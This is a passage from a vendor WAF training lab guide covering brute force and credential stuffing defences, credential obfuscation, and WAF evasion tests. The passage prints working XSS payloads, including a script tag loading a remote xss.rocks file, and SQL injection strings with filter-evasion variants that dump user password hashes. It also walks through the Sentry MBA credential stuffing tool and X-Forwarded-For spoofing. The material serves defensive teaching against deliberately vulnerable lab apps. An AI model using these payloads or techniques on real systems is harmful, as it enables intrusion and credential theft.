\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

What additional threshold value is now being reported?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

This is still part of the attack from the client IP **10.1.10.4**.

In a true distributed credential stuffing attack the attacker is coming
from many different IP addresses and using many different usernames.
None of the detection methods we have used to this point would be able
to detect this type of attack. To mitigate this attack, we will need to
enable distributed attack detection.

-  Select the checkbox to select all the log entries, and then click
       **Delete Requests**.

Exercise 4 – Blocking a Distributed Brute Force Attack
======================================================

Task 1 – Enable Brute Force Distributed IP Address Protection
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  In the **Brute Force Attack Prevention** tab click **[HTTP]
   /user/login**.

-  In the **Distributed Brute Force Protection** section, change
   **Maximum Prevention Duration** to **5** minutes.

-  For **Detect Distributed Attack** select the **After** option and use
   **50** failed login attempts.

   |image34|

-  Click **Save**, then click **Apply Policy** and then **OK**.

Task 2 – Apply the XFF iRule to the Virtual Server
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  Navigate to **Local Traffic > iRules** and right-click on **iRule
   List**, and then select **Open Link in New Tab**.

-  In the new tab go to the second page, and then click
   **rule\_insert-XFF**.

This iRule will inject random IP addresses in an **X-Forwarded-For**
header. This will allow us to make the attack appear to be distributed
across many IP addresses.

-  | Open the **Virtual Server List** page and click
     **Hackazon\_protected\_virtual**, and then open
   | the **Resources** page.

-  For **iRules** click **Manage**, then add **rule\_insert-XFF** to the
   virtual server, and then click **Finished**.

-  Open the **Security > Application Security > Policy > Properties**
   page.

-  From the **Policy Properties** list select **Advanced**.

-  Select the **Trust XFF Header** checkbox.

   |image35|

This setting will enable ASM to use the **X-Forwarded-For** value (from
the iRule) as the IP address of the incoming request.

-  Click **Save**, then click **Apply Policy** and then **OK**, and then
   close the tab.

Task 3 – Review Sentry MBA Configuration
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Sentry MBA is a tool that “crackers” use to try to replay stolen
credentials against login pages that they want to compromise. As you
will see from this lab it is highly configurable and it is widely used
on the internet for credential stuffing attacks.

-  Open **Burp Suite**.

-  Click **Close** to bypass installing updates, then click **Next**,
   and then click **Start Burp**.

-  Select the **Proxy** tab, and then click **Intercept is on** (ensure
   that it reads **Intercept is off**). NOTE: Leave Burn Suite running
   through this exercise.

   |image36|

-  Open **Sentry MBA** by clicking the blue “\ **S**\ ” in the taskbar.

   |image37|

Sentry MBA is already configured to attack the Hackazon login page.
We’ll examine the tool settings to see how it is configured.

-  In **Sentry MBA**, examine the URL in the **Site** list.

-  From the left menu select **Settings > HTTP Header**.

-  Click the “magic wand” icon on the lower right corner.

   |image38|

-  Examine the configuration settings on this page.

**→NOTE:** DO NOT change any of the settings on this page.

-  Close the page using the **X** in the top right corner.

-  From the left menu select **Lists > Wordlist**.

These are the **username:password** credentials that will be “stuffed”
into the Hackazon login page. In practice, these might be tens of
thousands of stolen credentials from breaches like the Sony, Target,
Home Depot, or Yahoo breaches.

-  Scroll through the list and identify the **admin:admin** and
   **user1:user1** entries. They are in positions 20 and 24 in the list.

Task 4 – Launch a Distributed Attack
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  In **Sentry MBA** click **Go**.

-  Select the **Use the Progression Position** checkbox.

   |image39|

-  Click **Start the Bruteforcer Engine!**

The attack starts and you will quickly see in the **Hits** tab that
logins were successful for both **admin:admin** and **user1:user1**..

-  Once you see the successful logins for **admin:admin** and
   **user1:user1**, click **Abort**, and then click **Stop**.

Food for Thought:

| Even though we have distributed brute force protection enabled, this
  attack was still successful for the **admin** and **user1** accounts.
  Why?
| \_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

-  From the left menu select **History > History**.

-  Right-click on the entry for **admin:admin** and select **Launch in
   Browser**, and then click **Yes**.

It’s very easy to use Sentry MBA to use, find, and exploit stolen
credentials.

-  Close the browser.

-  In Sentry MBA on the **History** page, click the delete icon, then
   select **Clear List**, and then click **Yes**.

   |image40|

Task 5– Review Requests in the ASM Log
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  In the Configuration Utility, on the **Application > Requests** page
   select **Refresh**.

There are many legal requests from different IP addresses for the
**[HTTP] /user/login** page.

-  Select several of the log entries and then examine the **Username**
   values on the **All Details** page.

-  Select the checkbox to select all the log entries, and then click
   **Delete Request > Delete all requests**.

Task 6– Review the Brute Force Log
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  | Navigate to **Security > Application Security > Event Logs >
     Application** and right-click
   | on **Brute Force Attacks**, and then select **Open Link in New
     Tab**.

-  In the new tab select the current ongoing attack until the **Login
   Stress** details displays.

In the left panel list is the list of attacks, including the current
ongoing attack. In the details panel is the login stress. This is based
on the number of failed logins detected compared to the set threshold.

-  Select the current ongoing attack until the **Attack Summary**
   details displays.

On this page there is extensive details about the attack, including the
attack type, detected failed logins, detected login attempts, and the
mitigation method.

-  Scroll down to view additional mitigation statistics, such as total
   mitigated login attempts, total CAPTCHA challenges, and total
   blocking page responses.

-  Select the different tabs at the top of the page to see additional
   details about the attack.

Food for Thought:

| Why are there no Mitigated Device IDs? How was ASM able to collect and
  list the usernames attempted? Why are there no Known Leaked
  Credentials?
| \_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

Task 6– Access from a browser
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  Test that even under attack when ASM blocks malicious traffic, normal
   users are able to access the login page.

-  ASM stores the client ip for every request it challenge. We are using
   an irule to rotate the ip addresses, so in order to test normal user
   - remove the irule from the virtual server.

-  Remove the ‘rule\_insert-XFF’ iRule from
   Hackazone\_protected\_virtual virtual server

-  Open a new chrome browser and login using user1 as username and user1
   as password.

-  Apply the ‘rule\_insert-XFF’ to the Hackazone\_protected\_virtual
   virtual server

Exercise 5 – Blocking a Credential Stuffing Attack
==================================================

Task 1 – Enable Credential Stuffing Protection
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  In the **Brute Force Attack Prevention** tab click **[HTTP]
   /user/login**.

-  In the **Distributed Brute Force Protection** section, for **Detect
   Credential Stuffing** select the **After** option and use **20**
   login attempts that match known leaked credentials dictionary.

   |image41|

-  Click **Save**, then click **Apply Policy** and then **OK**.

Task 2 – Launch a Distributed Attack
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  In **Sentry MBA** click **Go**.

-  Select the **Reset WordList Position** checkbox.

-  Click **Start the Bruteforcer Engine!**

The attack starts, but this time there are no results in the **Hits**
tab.

Question:

Why were there no successful logins found?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

-  After ten seconds or so, click **Abort**, and then click **Stop**,
   and then close **Sentry MBA**.

Task 3 – Review the Brute Force Log
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  In the Configuration Utility, in the **Brute Force Attacks** tab
   reload the page.

   |image42|

Notice the new ongoing attack is listed as **Credentials Stuffing**.

-  | Select the current ongoing attack and view the **Attack Summary**,
     **Mitigated IP Addresses**, and
   | **Mitigated Usernames** tabs.

-  Open the **Known Leaked Credentials** tab.

Question:

How many times were the first ten usernames attempted?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

Note that the logins failed. This is only because they were not valid
credentials for this website. IF they had ben valid credentials they
would have succeeded with any of the first 20 login attempts.

Question:

| Why is the **Failed Logins** result of all the subsequent login
  attempts “N/A”?
| \_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

Hint: What is our mitigation method?

-  Close the **Brute Force Attacks** tab

Lab 4 – Protecting Credentials with F5 DataSafe

The purpose of this lab is to show the new DataSafe implementation in
13.1. You will review the login page with and without DataSafe
protections. You will enable and test encryption, obfuscation, and decoy
fields.

Exercise 1 – Review and Attack the Login Page
=============================================

Task 1 – Review Form Fields with the Developer Tools
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**→NOTE:** Ensure Burp Suite is still running and set to **Intercept is
off**.

-  Open Firefox and access http://hackazon.f5demo.com/user/login.

-  Right-click inside the **Username or Email** field and select
   **Inspect Element**.

Question:

What is the **name** value for this field?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

-  Right-click inside the **Password** field and select **Inspect
   Element**.

Question:

What is the **name** value for this field?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

**FOOD FOR THOUGHT:** How difficult would it be for malware to know
which fields to grab to steal credentials from this page? How difficult
would it be for an attacker to stuff credentials into these fields? They
could simply put the stolen username into the “username” field and the
stolen password in the “password” field. This is what you did with the
Sentry MBA tool earlier in this lab.

Task 2 – Review Methods for Stealing Credentials
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  In the developer tools select the **Network** tab, then click the
   trash can icon to delete the requests.

-  On the login page enter your first name as username and **P@ssw0rd!**
   as password and click **Sign In**.

**NOTE:** Your login will fail, but your credentials were still sent to
the web server.

-  In the **Network** tab select the **/login?return\_url=** entry, and
   then examine the **Params** tab.

   |image43|

The user’s credentials are visible in clear text.

This is another way that malware can steal credentials. By “grabbing”
the POST request and any data sent with it, including username and
password.

Task 3 – Perform a Form Field “Web Inject”
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  Return to the http://hackazon.f5demo.com/user/login page.

**NOTE:** It should NOT have **?return\_url=** at the end of the URL in
the address bar.

-  Right-click inside the **Username or Email** field and select
   **Inspect Element** again.

-  Right-click on the highlighted text and select **Edit as HTML**.

   |image44|

-  Select all the text in the window and type **Ctrl+C** to copy the
   text.

-  Click after the end of **type="text">** and type **<br>**, and then
   press the **Enter** key twice.

-  Type **Ctrl+V** to paste the copied text.

   |image45|

-  For the new pasted entry, change the **name**, **id**, and
   **data-by-field** values to **mobile**, and change the
   **placeholder** value to **Mobile Phone Number**.

   |image46|

-  Click outside of the edit box and examine the Hackazon login page.

This is an example of the type of “web injects” that malware can perform
to collect additional information. This same technique could be used to
remove text or form fields. Note that this was done on the client side,
in the browser, without any requests being sent to the server. The web
application and any security infrastructure protecting it would have no
idea this is happening in the browser.

-  Close Firefox.

Exercise 2 – Review and Configure DataSafe Components
=====================================================

Task 1 – DataSafe Licensing and Provisioning
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  In the Configuration Utility, open the **System > License** page.

   |image47|

DataSafe includes only the Application Layer Encryption (ALE) module of
WebSafe. Unlike WebSafe, DataSafe is licensed perpetually per device,
just like ASM, APM, or any other licensed module. DataSafe is NOT
included in the Best Bundle.

-  Open the **System > Resource Provisioning** page.

   |image48|

When DataSafe is licensed, **Fraud Protection Service (FPS)** will
display as **Licensed**.

This is different than WebSafe, where Fraud Protection Services will
show up as N/A.

|image49|

-  Expand the **Security** menu.

| There is a **Data Protection** option. This is different than WebSafe
  where this menu option is
| **Fraud Protection Service**.

**DataSafe**

|image50|

**
**

Task 2 – DataSafe Configuration
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  Open the **Security > Data Protection > DataSafe Profiles** page and
   click **Create**.

-  For **Profile Name** enter **Hackazon-DS**.

-  On the left menu click **URL List**, and then click **Add**.

   |image51|

-  For **URL Path** leave **Explicit** selected, and type
       **/user/login**.

-  From the left panel open the **Parameters** page.

Remember from earlier you found that the username and password parameter
names are **username** and **password**.

-  Create a new parameter named **username**, and then click **Add**.

-  Create a second parameter named password, and then click **Add**.

-  Scroll to the right to view all the parameter options.

-  For the **username** parameter select the **Obfuscation** checkbox.

-  For the **password** parameter select the **Encrypt**, **Substitute
       Value**, and **Obfuscate** checkboxes.

   |image52|

-  Scroll to the left, and from the left menu open the **Application
   Layer Encryption** page.

Notice that most features are enabled by default.

-  Review the explanations for the different features.

-  Select the **Add Decoy Inputs** and **Remove Element IDs**
   checkboxes, and then click **Create**.

   |image53|

-  Open the **Virtual Server List** page and click
   **Hackazon\_protected\_virtual**, and then open the virtual server
   **Security > Policies** page.

-  From the **Anti-Fraud Profile** list select **Enabled**.

-  From the **Profile** list box, select **Hackazon-DS**, and then click
   **Update**.

   |image54|

Exercise 3 – Testing DataSafe Protection
========================================

Task 1 – Review the Protected Hackazon Login Page
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  Open a **private** Firefox window and access
   http://hackazon.f5demo.com/user/login.

-  Right-click inside the **Password** field and select **Inspect
   Element**.

Question:

What is the **name** value for this field?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

|image55|

**Obfuscation** - Notice that the name of the password field (outlined
in red) is now a long cryptic name and is changing every second. The
same is true of the username field.

**Add Decoy Inputs** – Notice that there are other random inputs being
added (outlined in green). The number and order of these inputs is
changing frequently.

**FOOD FOR THOUGHT:** Considering this obfuscation and you earlier
review of the Sentry MBA tool, do you think DataSafe could protect the
login page from a credential stuffing tool like Sentry MBA?

-  In the developer tools window select the **Network** tab, then click
   the trash can icon to delete any current requests.

-  On the login page enter your first name as username and **P@ssw0rd!**
   as password and click **Sign In**.

-  In the **Network** tab select the **/login?return\_url=** entry, and
   then examine the **Params** tab.

Questions:

What parameters were submitted?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

Do you see a username or password field?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

Do you see the username you submitted?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

**Obfuscation** – DataSafe obfuscates the names of the parameters when
they are submitted in a login request.

**Encryption** – DataSafe encrypted the value of the password field so
that it is not a readable value in the login request.

These two features together protect the credentials from being stolen by
malware “POST grabbers”.

Exercise 4 – ASM Compatibility
==============================

Task 1 – Review the ASM Request Event Log
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  In the Configuration Utility, open the **Security > Event Logs >
   Application** page clear the filter by clicking on the **X** next to
   **Illegal Requests**.

-  Find the most recent request for **[HTTP] /user/login** and select
   it.

-  Click **All Details**.

Question:

Was ASM able to capture the username while the field name was
obfuscated? \_\_\_\_\_\_\_\_\_\_

-  In the **Request** section examine the POST parameter values.

   |image56|

The POST request was first handled by DataSafe and the parameters names
were de-obfuscated and decrypted before being handed off to ASM.

DataSafe is FULLY compatible with ASM on the same virtual server!

Optional Lab 1 – Evasion Techniques

The purpose of this lab is to introduce common penetration testing
techniques and show how ASM signatures, normalization engine, and
protocol validation handle evasion techniques. You will also use Burp
Suite to view, manipulate, and replay requests and attacks.

Exercise 1 – Setup and Determining Vulnerability 
=================================================

Task 1 – Determining Cross Site Scripting (XSS) Vulnerabilities
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**→NOTE:** Ensure Burp Suite is still running and set to **Intercept is
off**.

-  Open Firefox window and access http://unprotected.f5demo.com and log
       in as **admin** / **password**.

-  On the navigation menu, click **XSS (Reflected)**.

-  Type your first name into the field, and then click **Submit**.

Note that the name you entered is shown in the response. This is known
as “reflection”; user input is shown, or reflected, in the response.

-  Copy and paste the following into the field, and then click
       **Submit**:

'';!--"<F5ROCKS>=&{()}

This is a common string used to test what, if any, filters and/or
encoding are being used on user input. Typically, the source of the page
after this injection will contain either &lt;XSS or <XSS. If the second
is found, the application is most likely not filtering user input (as it
allowed the addition of an arbitrary tag) and is likely vulnerable to
XSS.

Note that the visible response does not reflect the string “<F5ROCKS”
and does not APPEAR to show vulnerability. Let’s view the page source to
be sure.

-  Right-click on the page and select **View page source**.

-  Type **Ctrl+F** to open the inline search bar and search for
   **F5ROCKS**.

The presence of “<F5ROCKS” in the page source is an indicator that the
page is not filtering user input and is likely vulnerable to XSS.

-  Close the source page tab.

-  Click **Home**, and then click **XSS (Reflected)** again.

This is done to clear the previous attack string from the URL and thus
the referrer header on the subsequent request. This will help avoid
confusion when looking at the ASM request logs so that the same
signatures do not match for the next request

-  Copy and paste the following into the field, and then click
       **Submit**:

';alert(String.fromCharCode(88,83,83))//
";alert(String.fromCharCode(88,83,83))//
--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>

| **';alert(String.fromCharCode(88,83,83))//
  **\ This injection attempts to terminate a JavaScript string literal
  (using '), then terminate the statement (with ;) and makes a call to
  alert(String.fromCharCode(88,83,83)) which will cause a popup box
  containing "XSS". The following // is an attempt to "comment out" the
  rest of the statement, so that a syntax error will not occur and the
  script will execute.
| **";alert(String.fromCharCode(88,83,83))// --
  **\ This injection is like the previous injection, but it uses " in an
  attempt to terminate a JavaScript string literal.
| **--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
  **\ This attempts to do the following things:
| \* Terminate an HTML (or XML) comment (with -->)
| \* Terminate an existing <SCRIPT> tag using </SCRIPT>
| \* This is done to prevent the injected script causing a syntax error,
  which would prevent the
| injected script from executing.
| \* Terminate an HTML attribute and tag, using ">
| \* Terminate an HTML attribute and tag, using '>
| \* Inject JavaScript using
  <SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>.

-  Click **Home**, and then click **XSS (Reflected)** again.

-  Copy and paste the following into the field, and then click
       **Submit**:

<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>

This is a standard JavaScript injection that is calling a remote .js
file.

-  Close Firefox.

Exercise 2 – Testing ASM with Evasion Techniques 
=================================================

Task 1 – Testing the Cross-Site Scripting through ASM
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  In the Configuration Utility, open the **Security > Event Logs >
   Application >** **Requests** page, and then clear the filter by
   clicking on the **X** next to **Illegal Requests**.

   |image57|

-  Select the checkbox to select all the log entries, and then click
   **Delete Requests > Delete all requests**.

-  | Open a new private Firefox window and access
         http://protected.f5demo.com and log in
       | as **admin** / **password**.

-  On the navigation menu, click **XSS (Reflected)**.

-  Copy and paste the following into the field, and then click
       **Submit**:

'';!--"<F5ROCKS>=&{()}

-  In the Configuration Utility, on the **Application > Requests** page
   select **Refresh**.

-  Select the log entry with the violation rating and click **Attack
   signature detected** to see which signatures were matched to trigger
   the violation rating.

-  Select the checkbox to select all the log entries, and then click
   **Delete Requests**.

-  In the DVWA page, click **Home**, and then click **XSS (Reflected)**
   again.

-  Copy and paste the following into the field, and then click
   **Submit**:

';alert(String.fromCharCode(88,83,83))//
";alert(String.fromCharCode(88,83,83))//
--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>

-  In the Configuration Utility, on the **Application > Requests** page
   select **Refresh**.

-  Select the log entry with the violation rating and click **Attack
   signature detected** to see which signatures were matched to trigger
   the violation rating.

-  Select the checkbox to select all the log entries, and then click
   **Delete Requests**.

-  In the DVWA page, click **Home**, and then click **XSS (Reflected)**
   again.

-  Copy and paste the following into the field, and then click
       **Submit**:

<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>

-  In the Configuration Utility, on the **Application > Requests** page
   select **Refresh**.

-  Select the log entry with the violation rating and click **Attack
   signature detected** to see which signatures were matched to trigger
   the violation rating.

-  Select the checkbox to select all the log entries, and then click
   **Delete Requests**.

-  In the DVWA page, click **Home**, and then click **XSS (Reflected)**
   again.

Task 2 – Obfuscation – URL Encoding
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

One form of obfuscation is encoding the attack to “hide” it from
protections like IPS and WAF. In this step we will try URL-encoding.

-  In Burp Suite, click **Intercept is off** (ensure that it reads
   **Intercept is on**).

-  In Firefox click **Home**, and then in Burp Suite click **Forward**
   until the DVWA home page displays.

-  In the DVWA page copy and paste the following into the field, and
   then click **Submit**:

<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>

-  In Burp Suite select the entire parameter value (everything after the
   **=**), then right-click on the parameter value and select **Send to
   Decoder**.

   |image58|

-  Select the **Decoder** tab.

-  On the right-side of the page select **Encode as … > URL.**

   |image59|

-  Select the entire URL-encoded value (use **Ctrl+A**) and copy it (use
   **Ctrl+C**).

-  Select the **Proxy** tab.

-  Right-click on the selected parameter value and select **Paste** to
   replace it with the URL-encoded string.

-  Click **Forward** until the reflected response displays on the DVWA
   page.

-  In the Configuration Utility, on the **Application > Requests** page
   select **Refresh**.

-  | Select the log entry for **/vulnerabilities/xss\_r/** with the
     violation rating and click
   | **Attack signature detected** to see which signatures were matched
     to trigger the violation rating.

Questions:

Did encoding the XSS attack hide it from ASM?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

What does this tell you about encoded obfuscation?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

-  Select the checkbox to select all the log entries, and then click
   **Delete Requests**.

Task 3 – Obfuscation – String Manipulation
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Another form of obfuscation is string manipulation. In this exercise, we
will try manipulating common XSS and SQLi attack strings to evade
signature-based detections.

Null character insertion

-  In Firefox click **Home**, and then in Burp Suite click **Forward**
   until the DVWA home page displays.

-  In Firefox click **XSS (Reflected)**, and then in Burp Suite click
   **Forward** until the XSS Reflected page displays.

-  Copy and paste the following into the field, and then click
   **Submit**:

<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>

-  In Burp Suite insert a URL-encoded null character (**%00**) in the
   middle of the first and last SCRIPT tags (i.e. **SCR%00IPT**).

   |image60|

-  Click **Forward** until the dialog box displays on the DVWA page.

-  In the Configuration Utility, on the **Application > Requests** page
   select **Refresh**.

-  | Select the log entry for **/vulnerabilities/xss\_r/** with the
     violation rating and click
   | **Attack signature detected** to see which signatures were matched
     to trigger the violation rating.

Question:

Did encoding the XSS attack hide it from ASM?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

-  Select the checkbox to select all the log entries, and then click
   **Delete Requests**.

SQLi always true

You should be familiar with the common “OR 1=1” SQLi injection attack.
This is a common attack that attempts to create an “always true”
condition that will cause the database to return more rows than the
application intended.

-  In Burp Suite, click **Intercept is on** (ensure that it reads
   **Intercept is off**).

-  On the DVWA page click **DVWA Security**.

-  Change the security level to **Low**, and then click **Submit**.

-  Click **SQL Injection**.

-  Copy and paste the following into the field, and then click
   **Submit**:

' OR 1=1#

-  In the Configuration Utility, on the **Application > Requests** page
   select **Refresh**.

-  | Select the log entry for **/vulnerabilities/sqli/** with the
     violation rating and click
   | **Attack signature detected** to see which signatures were matched
     to trigger the violation rating.

-  Select the checkbox to select all the log entries, and then click
   **Delete Requests**.

-  In the DVWA page, click **Home**, and then click **SQL Injection**
   again.

-  Copy and paste this less obvious “always true” string into the field,
   and then click **Submit**:

' OR ASCII('\*')>'40

This is essentially comparing the ASCII representation of the asterisk
(\*) character (which is 42) with the decimal number 40. Note we used a
greater than comparison rather than an equality comparison.

-  In the Configuration Utility, on the **Application > Requests** page
   select **Refresh**.

-  | Select the log entry for **/vulnerabilities/sqli/** with the
     violation rating and click
   | **Attack signature detected** to see which signatures were matched
     to trigger the violation rating.

Questions:

Are the signature IDs the same as the previous request?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

| What does this tell you about ASM signatures and the normalization
  engine
| \_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

-  Select the checkbox to select all the log entries, and then click
   **Delete Requests**.

SQLi union select

In this exercise we will try a more sinister union select command that
returns all the usernames and their hashed passwords. We will then try
to manipulate the command to evade signature detection.

-  In the DVWA page, click **Home**, and then click **SQL Injection**
   again.

-  Copy and paste the following into the field, and then click
   **Submit**:

' and 1=0 union select null,
concat(first\_name,0x0a,last\_name,0x0a,user,0x0a,password) from users #

-  In the Configuration Utility, on the **Application > Requests** page
   select **Refresh**.

-  | Select the log entry for **/vulnerabilities/sqli/** with the
     violation rating and click
   | **Attack signature detected** to see which signatures were matched
     to trigger the violation rating.

-  Select the checkbox to select all the log entries, and then click
   **Delete Requests**.

-  In the DVWA page, click **Home**, and then click **SQL Injection**
   again.

-  Copy and paste this less obvious “always true” string into the field,
   and then click **Submit**:

' and 1=0 un/\*\*/ion/\*\*/sel/\*\*/ect null,
concat(first\_name,0x0a,last\_name,0x0a,user,0x0a,password) from users #

This string is trying to hide the union select command by inserting SQL
comments between and in the middle of the words.

-  In the Configuration Utility, on the **Application > Requests** page
   select **Refresh**.

-  | Select the log entry for **/vulnerabilities/sqli/** with the
     violation rating and click
   | **Attack signature detected** to see which signatures were matched
     to trigger the violation rating.

-  Select the checkbox to select all the log entries, and then click
   **Delete Requests**.

-  In the DVWA page, click the **Back** button, then click **Home**, and
   then click **SQL Injection** again.

-  Copy and paste this less obvious “always true” string into the field,
   and then click **Submit**:

' and 1=0 REVERSE(noinu) REVERSE(tceles) null,
concat(first\_name,0x0a,last\_name,0x0a,user,0x0a,password) from users #

This string is trying to hide the union select command by using the SQL
REVERSE function.

-  Close Firefox.

-  In the Configuration Utility, on the **Application > Requests** page
   select **Refresh**.

-  | Select the log entry for **/vulnerabilities/sqli/** with the
     violation rating and click
   | **Attack signature detected** to see which signatures were matched
     to trigger the violation rating.

-  Select the checkbox to select all the log entries, and then click
   **Delete Requests**.

Optional Lab 2 – Protecting JSON Applications

The purpose of this lab is to show ASM’s ability to parse and protect
JSON data.

Exercise 1 – Review the JSON Application 
=========================================

Task 1 – Review the JSON POST in Burp Suite
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**→NOTE:** Ensure Burp Suite is still running and set to **Intercept is
off**.

-  Open Firefox window and access http://simplestoref.f5demo.com and
       click **Login**.

   |image61|

We will now use Burp Suite to intercept, view, and manipulate the POSTs
to the login page.

-  In Burp Suite, click **Intercept is off** (ensure that it reads
   **Intercept is on**).

-  On the Simple Store page log in as **user** / **user** and click
       **Sign in**.

-  View the request in Burp Suite.

Notice that the POST data is not in typical key / value pairs. The POST
data is in JSON format. Also, the **Content-Type** is “\ **application/
json;charset=utf-8**\ ”.

-  Click **Forward**.

Exercise 2 – Manipulate JSON Request Data 
==========================================

Task 1 – Change Credentials using Burp Suite
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  On the Simple Store page log in as **user** / **user** and click
       **Sign in**.

-  In Burp Suite right-click on the request and select **Send to
   Repeater**.

   |image62|

In Burp Repeater we can manipulate and resend this request many times
and see the responses.

-  Select the **Repeater** tab.

-  Change the username and password JSON parameter values to **test** /
   **test**.

-  Click **Go**.

-  Examine the **Response**.

   |image63|

The response identifies that we successfully logged into the application
using the manipulated credentials.

Task 2 – Using SQL Injection in the JSON Values
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  Change the username JSON parameter value to **' OR 1=1#** and then
   click **Go**.

By examining the response, it appears that the page is isn’t susceptible
to this specific SQL injection attack. However, the application did
receive the request and try to process the JSON parameters.

A WAF will not be able to apply signatures to these parameter names and
values and protect this application unless it is able to properly parse
the JSON format and differentiate between the parameter name and the
parameter value.

Exercise 3 – Blocking Malicious JSON
====================================

Task 1 – Create a Security Policy
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  In the Configuration Utility, open the **Security > Application
       Security > Security Policies > Policy List** page and click
       **Create New Policy**, and then select the **Advanced** settings.

-  Use the following information for the new policy, and then click
       **Create Policy**.

+--------------------------------------------------------+------------------------+
| **Policy Name**                                        | JSON-policy            |
+========================================================+========================+
| **Policy Template**                                    | Rapid Deployment       |
+--------------------------------------------------------+------------------------+
| **Virtual Server**                                     | JSON\_virtual (HTTP)   |
+--------------------------------------------------------+------------------------+
| **Enforcement Mode**                                   | Blocking               |
+--------------------------------------------------------+------------------------+
| **Application Language**                               | Unicode (utf-8)        |
+--------------------------------------------------------+------------------------+
| **Policy is Case Sensitive**                           | Disabled               |
+--------------------------------------------------------+------------------------+
| **Differentiate between HTTP/WS and HTTPS/WSS URLs**   | Disabled               |
+--------------------------------------------------------+------------------------+

Note that we did NOT make any JSON-specific changes to the policy.

Task 1 – Retry SQL Injection
~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  In Burp Suite click **Go** to resend the request with the SQL
   injection attempt, and then examine the response.

   |image64|

Questions:

| What information in the response tells us that an ASM policy is
  applied?
